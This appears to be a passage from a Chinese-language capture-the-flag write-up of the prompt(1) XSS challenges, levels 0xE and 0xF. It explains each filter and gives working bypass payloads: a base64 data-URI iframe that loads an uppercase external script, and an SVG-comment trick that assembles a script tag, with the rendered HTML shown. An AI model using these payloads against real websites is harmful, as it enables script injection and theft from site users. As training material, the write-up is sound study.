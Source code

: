 第一个 replace 是将 `//` 或 `(任意字母数字):` 替换为 `data:`。

第二个 replace 是将 __\\__ 、 __&__ 、__+__ 、__%__ 和空白字符替换为 _____ 。

又因为有 toUpperCase() 在，所以注入 XSS 是不大好搞的，尝试引用外部脚本。

尝试了下，把我自己的服务器放上去拿不到全大写字母加数字的 base64 编码，就先放 payload 在这了

```
"><IFRAME/SRC="x:text/html;base64,ICA8U0NSSVBUIC8KU1JDCSA9SFRUUFM6UE1UMS5NTD4JPC9TQ1JJUFQJPD4=
```

------

### 0xF

```js
function escape(input) {
    // sort of spoiler of level 7
    input = input.replace(/\*/g, '');
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');

    return segments.map(function(title, index) {
        // title can only contain 15 characters
        return '<p class="comment" title="' + title.slice(0, 15) + '" data-comment=\'{"id":' + index + '}\'></p>';
    }).join('\n');
}
```

这关虽然把 `*` 替换掉了，但是可以利用 `<svg>` 标签去使用 `<!-- -->`替代多行注释。

payload:

```
"><svg><!--#--><script><!--#-->prompt(1<!--#-->);<!--#--></script>
```

```
<p class="comment" title=""><svg><!--" data-comment='{"id":0}'></p>
<p class="comment" title="--><script><!--" data-comment='{"id":1}'></p>
<p class="comment" title="-->prompt(1<!--" data-comment='{"id":2}'></p>
<p class="comment" title="-->);<!--" data-comment='{"id":3}'></p>
<p class="comment" title="--></script>" data-comment='{"id":4}'></p>
```

## Summary

写BUU写着写着顺手打了打 `InCTF` 结果签到就是 XSS 弹shell，直呼完蛋(XSS不大会，直接就溜去刷刷靶场，还是有挺多东西要学的，加油加油！